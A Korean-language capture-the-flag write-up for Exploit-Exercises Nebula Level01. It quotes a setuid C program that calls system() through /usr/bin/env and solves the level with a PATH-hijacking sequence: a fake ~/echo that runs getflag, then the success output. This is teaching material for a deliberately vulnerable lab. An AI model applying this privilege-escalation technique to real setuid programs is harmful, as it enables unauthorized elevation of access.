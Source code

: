 # Exploit-exercise Nebula Level01
```
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

취약점이 있는 프로그램에서 취약점을 찾을 수 있냐고 물어보면서 c 언어 소스코드를 준다.  
/usr/bin/env 를 통해 환경변수에서 echo 라는 프로그램 명을 찾아서 and now what? 이라는 인자를 주며 실행한다.

그렇다면 환경변수중 프로그램 실행 경로를 찾는 PATH 에 ~/ (홈 디렉토리)를 추가하고 ~/echo 를 만든 다음, 내용에 getflag 를 넣으면 될 것이다.

```
export PATH=~:$PATH
echo "getflag" > ~/echo
chmod a+x ~/echo
/home/flag01/flag01
```

export 명령어를 통해 PATH 에 ~ (홈 디렉토리) 를 추가하고,  
echo "getflag" > ~/echo 를 통해 echo 파일에 getflag 를 입력한다.  
chmod a+x ~/echo 를 통해 echo 파일을 실행할 수 있도록 한 다음에  
/home/flag01/flag01 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.